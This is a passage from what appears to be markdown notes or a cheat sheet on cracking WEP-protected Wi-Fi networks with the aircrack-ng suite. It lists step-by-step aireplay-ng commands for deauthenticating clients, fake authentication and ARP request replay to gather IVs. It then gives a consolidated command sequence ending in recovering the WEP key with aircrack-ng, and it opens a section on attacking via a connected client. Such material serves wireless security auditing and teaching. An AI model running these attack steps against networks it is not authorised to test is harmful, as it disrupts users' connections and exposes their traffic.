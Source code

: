 1. put device in monitoring mode (see airmon-ng)
2. capture packets and save it to a file (see airodump-ng)
3. fake authenticate with the AP (see fake auth attack)
4. perform deauth of a client
`> aireplay-ng -0 1 -a <AP MAC> -c <VicClient MAC> <mon device>`

#### 3.1.3 arp request replay attack
Best way to create new initialization vectors (IVs). Areplay listens for a ARP Packet and once found retransmits it to the AP. This brings the AP to answer with ARP new initialization vector (IV) . Aireplay repeats this over and over and so collects a lot of initialzation vectors. This is the basis for cracking the WEP Key with aircrack.

**performing the attack:**

1. put device in monitoring mode (see airmon-ng)
2. capture packets and save it to a file (see airodump-ng)
3. fake authenticate with the AP (see fake auth attack)
4. sending arp requests once captured
`> aireplay-ng -3 -b <AP MAC> -h <mon dev MAC> <mon device>`

5. to speed things up one could run a deauth attack on associated clients (see DeAuth Attack)

#### 3.1.4 aircrack the WEP key

**performing the attack:**

1. put device in monitoring mode (see airmon-ng)
2. capture packets and save it to a file (see airodump-ng)
3. fake authenticate with the AP (see fake auth attack)
4. sending arp requests once captured (see ARP relay attack)
5. Cracking the WEP Key
`aircrack-ng -0 <dumpfile.name>`

#### 3.1.5 summarize WEP attack with clients

1. put device in monitoring mode (see airmon-ng)
`> airmon-ng start <device> <channel>`

2. capture packets and save it to a file (see airodump-ng)
`> airodump-ng -c <channel> --bssid <AP MAC> -w <dumpfile.name> <monitoring device>`

3. fake authenticate with the AP (see fake auth attack)
`> aireplay-ng -1 0 -e <AP name> -a <AP MAC> -h <mon device MAC> <mon device>`

4. sending arp requests once captured (see ARP Replay Attack and DeAuth Attack)
`> aireplay-ng -3 -b <AP MAC> -h <mon dev MAC> <mon device>`
optional deauth attack against a client to speed up ARP capturing:
`> aireplay-ng -0 1 -a <AP MAC> -c <VicClient MAC> <mon device>`

5. cracking the WEP Key
`aircrack-ng -0 <dumpfile.name>`

### 3.2 WEP cracking via a client
Attack a connected client and force it to create IVs.

- good for APs with restrictions
- if AP is out of reach but a client is within
